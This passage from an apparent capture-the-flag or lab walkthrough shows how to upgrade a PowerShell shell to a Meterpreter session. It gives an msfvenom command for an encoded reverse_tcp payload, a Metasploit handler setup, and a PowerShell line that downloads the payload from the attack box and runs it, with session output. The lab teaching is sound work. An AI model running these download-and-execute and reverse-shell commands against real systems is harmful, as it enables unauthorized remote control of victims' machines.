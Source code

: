 Now you will perform a shell upgrade in order to simplify the privilege escalation phase.  
From your current powershell shell you will switch to a meterpreter shell.  
Meterpreter is more feature-rich compared to standard shells and is provided by the Metasploit framework.

First, craft a payload to start a reverse meterpreter shell using **msfvenom** which is basically a tool to create payloads.  
As always with these commands make sure to replace the 'LHOST=10.10.13.148' part with the ip of your attack box.

```bash
root@ip-10-10-13-148:~# msfvenom -p windows/meterpreter/reverse_tcp --encoder x86/shikata_ga_nai LHOST=10.10.13.148 LPORT=4444 -f exe -o shell-name.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: shell-name.exe
```

Now run `msfconsole` to run metasploit.  
Set up a handler to receive the meterpreter shell.  
Once again, replace the 10.10.13.148 ip with your attack box ip.

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.13.148
lhost => 10.10.13.148
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.13.148:4444
```

From the powershell shell you obtained earlier launch the following command:

```bash
PS C:\Users> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.13.148:8000/shell-name.exe','shell-name.exe')"
PS C:\Users> Start-Process "shell-name.exe"
```

This downloads the malicious payload on the target system and executes it.  
Remember, your machine is serving the payload to the target machine so make sure your http server is still running and the payload is in the same folder where the http server is running.  
If everything was setup properly you should get a meterpreter shell.

```bash
[*] Sending stage (175686 bytes) to 10.10.34.64
[*] Meterpreter session 4 opened (10.10.13.148:4444 -> 10.10.34.64:49411) at 2024-09-20 17:04:07 +0100

meterpreter >
```
